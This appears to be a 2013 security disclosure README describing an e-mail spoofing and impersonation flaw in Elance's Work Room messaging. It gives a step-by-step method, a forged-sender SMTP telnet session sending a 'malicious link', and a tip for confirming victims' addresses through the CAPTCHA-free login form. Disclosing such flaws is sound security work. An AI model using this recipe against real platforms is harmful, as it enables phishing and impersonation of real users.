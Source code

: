 Elance WR E-mail Spoofing & Impersonation (explanation and PoC)
==========

From Wikipedia:

> "Elance is a global online staffing platform where companies, organizations and individuals can hire independent freelance professionals and use online collaboration tools to manage teams and projects. Independent contractors create online profiles and portfolios, submit proposals for jobs, and collaborate and receive payment through the Elance website."

## The Work Room

The WR provides private messaging for both freelancers and contractors. Bid ID is used as database reference (this is important, the bid IDs are publicly available).
For each WR, Elance provides an unique email address with the following format, where XXXXXX refers to bid ID:

    EXXXXXX-WR@workroom.elance.com

## The bug

One of the first things I tried was to send a message from my personal e-mail address to a friend's WR address. An error about a message being filtered showed up at his WR and he was not able to see it.
Then I started playing with my SMTP server and fake headers worked surprisingly.

## Methodology

Look for a job, check the proposal list and focus on one of them. Write down its bid ID, located at the bottom, next to the pubdate.
An important detail is that you need to know the other's e-mail address. Googling should work ;-)
With the correct e-mail address and bid ID we could easily send a message like this:

    $ telnet 127.0.0.1 25
    Connected to 127.0.0.1.
    Escape character is '^]'.
    220 serveri ESMTP Exim Sun, 11 Aug 2013 17:50:10 +0000
    HELO server
    250 server Hello localhost [127.0.0.1]
    MAIL FROM: other@gmail.com
    250 OK
    RCPT TO: EXXXXXX-WR@workroom.elance.com
    250 Accepted
    DATA
    354 Enter message, ending with "." on a line by itself
    SUBJECT: Elance
    
    hello, check this malicious link: http://www.maliciouslink.com/
    
    250 OK

**Important detail about e-mail check:** Forms for user/password recovery have nice CAPTCHAs but the main login screen doesn't. So one can easily google a victim's e-mail address (most freelancers have personal pages, blogs and even their own domains with disclosed WHOIS information) and check if it's the one they use for Elance. Look at the source for examples.
